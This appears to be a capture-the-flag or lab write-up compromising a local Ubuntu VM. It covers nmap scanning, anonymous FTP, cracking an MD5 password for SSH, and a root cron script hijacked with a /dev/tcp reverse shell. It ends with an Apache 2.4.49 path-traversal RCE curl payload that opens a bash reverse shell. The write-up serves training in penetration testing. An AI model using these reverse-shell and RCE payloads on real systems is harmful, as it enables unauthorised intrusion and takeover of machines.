


# Troubleshooting
As `/etc/netplan` configuration of the machine says, there is a static ip address without DHCP. It's look weird and agains requirements of the assignment.

For this purpose we decide to boot the machine in recovery mode and then enable `root` console, only for network managment.
Once `root` we have removed every file under /etc/netplan and then we've created a `/etc/rc.local` file with following code
```sh
#!/bin/bash
dhclient
exit 0
```
then `chmod 755 /etc/rc.local` and then, enable and restart the service (may take a while)
```sh
systemctl enable rc-local
systemctl restart rc-local
```

# Information Gathering
## Scanning
### nMap
```sh
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sV -A 192.168.56.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-03 03:40 EDT
Nmap scan report for 192.168.56.2
Host is up (0.00087s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           216 Apr 30 12:08 site-credentials.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.3
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:dc:bf:b0:43:be:b5:ed:c4:1f:b8:0b:93:01:3a:4a (RSA)
|   256 2d:12:5e:5d:a5:11:18:ec:16:07:b6:ce:ae:7f:14:03 (ECDSA)
|_  256 b8:76:62:9f:68:28:a8:30:d0:87:13:fd:d1:10:aa:df (ED25519)
MAC Address: 08:00:27:61:9A:82 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
```
### ffuf


## Dump informations
### FTP
Since nMap shows us an anonymous login allowed on machine, try to explore..
```sh
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.2
    anonymous
    <blank_password>
```

`site-credentials.txt` reports something like
```txt
In case you forget the credentials to upload the files on the website,the IT department provided me with a file containing the password.
They mentioned a certain MD5 code.

ftp-user 37b4e2d82900d5e94b8da524fbeb33c0
```
seems we have a password hashed with MD5, but.. MD5 is unsafe since 2008 then maybe a rainbow-table attack can "decode" it.

```sh
md5:37b4e2d82900d5e94b8da524fbeb33c0 -> football
```
then.. could be this a user of the system? try it.
```sh
──(kali㉿kali)-[~]
└─$ ssh ftp-user@192.168.56.2
    football
ftp-user@ubuntulab:~$
```
**An unpriviledged shell was obtained 🏴‍☠️**
### Mounted disks
```sh
ftp-user@ubuntulab:~$ lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
loop0    7:0    0 49.9M  1 loop /snap/snapd/18357
loop1    7:1    0 91.9M  1 loop /snap/lxd/24061
loop2    7:2    0 38.8M  1 loop /snap/snapd/21465
loop3    7:3    0 63.3M  1 loop /snap/core20/1828
sda      8:0    0  5.2G  0 disk
├─sda1   8:1    0    1M  0 part
├─sda2   8:2    0  500M  0 part /boot
├─sda3   8:3    0  510M  0 part [SWAP]
└─sda4   8:4    0  4.2G  0 part /
sr0     11:0    1 1024M  0 rom
```
### /etc/passwd
```sh
...
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:114:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftp-user:x:1001:1001:,,,:/usr/local/apache24/cgi-bin/:/bin/bash
```

# Play with users
## ftp-user
### Information gathering
Try to understand what are last operation of ftp-user by reading his **.bash_history** file
```sh
ftp-user@ubuntulab:~$ cat .bash_history
ls
cd ..
ls
cd ..
sl
lsv
exit
systemctl start apache2
systemctl status apache2.service
journalctl -xe
sudo journalctl -xe
exit
ls
exit
cat /etc/crontab
nano ../scripts/health_check.sh
vi ../scripts/health_check.sh
less ../scripts/health_check.sh
```
in his `/home` there are some files, maybe useful for priviledge escalation
```sh
ftp-user@ubuntulab:/usr/local/apache24/cgi-bin$ ls
printenv  printenv.vbs	printenv.wsf  test-cgi
```
### Execute and explore binaries
Try to execute `printenv`
```sh
ftp-user@ubuntulab:~$ printenv
SHELL=/bin/bash
PWD=/usr/local/apache24/cgi-bin/
LOGNAME=ftp-user
XDG_SESSION_TYPE=tty
MOTD_SHOWN=pam
HOME=/usr/local/apache24/cgi-bin/
LANG=en_US.UTF-8
LC_TERMINAL=iTerm2
SSH_CONNECTION=192.168.56.3 56806 192.168.56.2 22
XDG_SESSION_CLASS=user
TERM=xterm-256color
USER=ftp-user
LC_TERMINAL_VERSION=3.5.0beta22
SHLVL=1
XDG_SESSION_ID=37
XDG_RUNTIME_DIR=/run/user/1001
SSH_CLIENT=192.168.56.3 56806 22
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1001/bus
SSH_TTY=/dev/pts/0
_=/usr/bin/printenv
```
# Privilege escalation
## Cronjob health-check.sh
The crontab was set to execute the health-check.sh every minute (`*/1 * * * *`)
 as root. Since health-check.sh was writable by the `ftp-user` we were able to inject a reverse shell into it:
 ```sh
 sh -i >& /dev/tcp/<attacker_machine>/<attacker_port> 0>&1
``` 

 # Foothold
With that version of Apache (2.4.49) misconfigured, we are able to produce a remote code execution via Path Traversal.
 ```sh
 curl -s -X POST -d "echo; bash -i >& /dev/tcp/192.168.56.3/9321 0>&1" http://192.168.56.4:8080/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/bash
 ```